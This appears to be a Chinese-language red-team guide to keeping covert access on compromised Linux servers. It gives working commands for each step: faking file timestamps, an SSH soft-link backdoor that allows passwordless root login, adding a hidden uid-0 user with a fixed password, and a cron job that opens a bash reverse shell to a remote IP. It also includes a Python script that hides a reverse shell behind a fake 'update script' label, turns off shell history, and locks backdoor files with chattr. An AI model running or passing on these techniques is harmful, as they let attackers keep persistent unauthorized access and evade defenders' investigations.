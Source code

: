 修改文件修改时间

攻防演练中，蓝队有时会通过文件修改时间来判断文件是否为攻击人员新添加的后门，这时可以通过修改文件最后修改时间来达到隐蔽自己的目的。可以通过命令 touch -c -t 201604061234 filename 来修改文件显示的最后修改时间。

隐藏文件

touch命令可创建隐藏文件，例如：
Default
touch .shell.php

使用通常的命令ls或者ls -l都无法看到，只能通过ls -al查看到隐藏文件。

SSH软连接后门

在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。使用命令：ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31387
任意可达网络内输入：ssh root@IP -p 31387 即可无密码连接SSH。

添加用户

当通过web服务或者其他不稳定中间件拿到目标服务器root权限shell时，为做好权限维持，可以直接添加高权限用户，通过连接SSH来进行后续操作。
创建root高权限用户：
Default
useradd -p `openssl passwd -1 -salt ’sqli’ password123` -u 0 -o -g root -G root -s /bin/bash -d /usr/bin/sqli sqli

执行后使用用户名sqli与密码password123以root权限登录SSH。
创建普通用户：
Default
useradd -p `openssl passwd -1 -salt 'salt' password123` guest

执行后使用用户名guest与密码password123以root权限登录SSH。

Crond定时任务

拿到服务器权限后，添加Crond计划任务来让服务器定时反弹shell，从而达到权限维持的目的。
首先创建.sh文件，编辑文件内容为反弹shell脚本，内容以bash反弹命令为例：
Default
bash -i >& /dev/tcp/192.168.2.222/12345  0>&1

编辑结束后保存。
输入crontab -e根据.sh脚本文件路径创建定时任务（此任务为每分钟执行一次）：
Default
*/1 * * * * root /home/test/shell.sh

注：centos7不需要root参数，不然会报错。创建完成后通过crontab -l查看已创建的定时任务。
重启crond服务即可在接收端接受反弹的shell，重启命令如下：
Default
service crond restart

SSH公钥免密登录

客户端本地生成公钥，将公钥上传到服务器，之后即可无密码登录服务器。
Default
cd root/.ssh/ 
ssh-keygen -t rsa # 生成公钥
cat id_rsa.pub >> authorized_keys # 加入授权文件
chmod 600 ./authorized_keys # 给予权限
ssh-copy-id -i /root/.ssh/id_rsa.pub root@服务器IP  #将公钥上传到服务器

完成后即可无密码登录服务器。

后门隐藏脚本内容

cat命令支持\r\f\n等换行换页符，通过在命令中穿插这类符号可以达到隐藏脚本真实内容的目的。
通过以下python脚本生成一个带反弹shell的脚本文件：
Default
cmd_h = "bash -i >& /dev/tcp/IP/12345  0>&1" #需要隐藏的脚本内容
cmd_v = "系统漏洞更新脚本" #cat命令可视内容
 
with open("test2.sh", "w") as f:
    output = "#!/bin/sh\n"
    output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n"
    f.write(output)

接下来使用cat命令查看内容：
执行脚本后，客户端接收到服务器shell。
这个方法可以配合修改文件最后修改时间后加入计划任务，可以起到很大程度的迷惑性。

关闭历史操作命令

在系统后门安全排查时，会通过历史命令来溯源到危险文件，可以在拿到服务器shell时第一时间关闭历史命令记录来隐蔽自己的各种操作。
Default
set +o history #关闭历史记录
set -o history #恢复历史记录
history | grep "test" #删除包含test的历史记录

关闭历史记录后，所有操作不会再记录。

隐藏脚本权限

通过chattr命令可以锁定文件防止root用户删除，可以使用此命令进一步保护后门文件。
Default
chattr +i shell.jsp #锁定文件
chattr -i shell.jsp #解锁文件